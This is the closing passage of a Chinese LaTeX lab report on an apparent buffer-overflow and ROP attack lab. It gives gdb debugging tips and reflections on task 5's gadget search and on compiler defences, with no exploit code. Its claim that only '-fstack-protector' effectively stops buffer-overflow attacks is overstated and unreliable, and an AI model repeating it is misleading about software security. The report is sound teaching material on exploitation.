    \item 使用 \verb|gdb| 工具查看堆栈信息时,低地址在上,高地址在下,与平常的堆栈图恰好相反,需要一定的思维转换才能看懂。
    \item 第5题开始时没有找到 \verb|add_xy| 函数,尝试只使用 \verb|mov, pop, ret| 这几个指令完成攻击任务,浪费了不少时间。后来发现这是根本不可能的,才开始寻找有关算术运算的代码块,最终找到 \verb|add_xy| 这个函数,顺利完成了实验任务。
\end{enumerate}

\section{技巧与经验}

通过这次实验,我对 \verb|gdb| 的使用方法更加了解,下面简单介绍一下我使用 \verb|gdb| 调试的技巧与经验。

\begin{enumerate}[1.]
    \item 如果是调试自己的代码,应加上 \verb|-g| 编译选项,这样能通过 \verb|l| 命令查看源码。
    \item 如果是调试他人编译好的代码,首先通过 \verb|objdump| 反汇编,找到程序的入口点,例如 \verb|main|,然后启动 \verb|gdb|,使用 \verb|b main| 在程序入口打断点,然后 \verb|r| 运行程序。
    \item 使用 \verb|disas| 打印出附近的几行汇编代码,使用 \verb|until *line_number| 能快速执行到所需的指令地址,也可使用 \verb|ni| 命令逐行执行汇编指令。
    \item 可使用 \verb|p $rsp| 打印栈顶指针,使用 \verb|x/16b $rsp| 查看栈上存放的值。
\end{enumerate}

\section{心得体会}

\begin{enumerate}[1.]
    \item 编写C程序时,一定要检查输入字符串的长度,防止缓冲区溢出。
    \item 开启栈随机化(ASLR),栈不可执行(\verb|-z noexecstack|)选项能有效防止 CI 攻击,而不能防止 ROP 攻击,只有开启栈保护编译选项(\verb|-fstack-protector|),才能有效防止缓冲区溢出攻击。
    \item 值得一提的是,本实验的设计非常巧妙,完成体验极佳,尤其是第5题,在一个有向图内将数据在寄存器之间转移的过程,让我体会到ROP的乐趣,也深刻意识到保护缓冲区的重要性。
\end{enumerate}

\end{document}
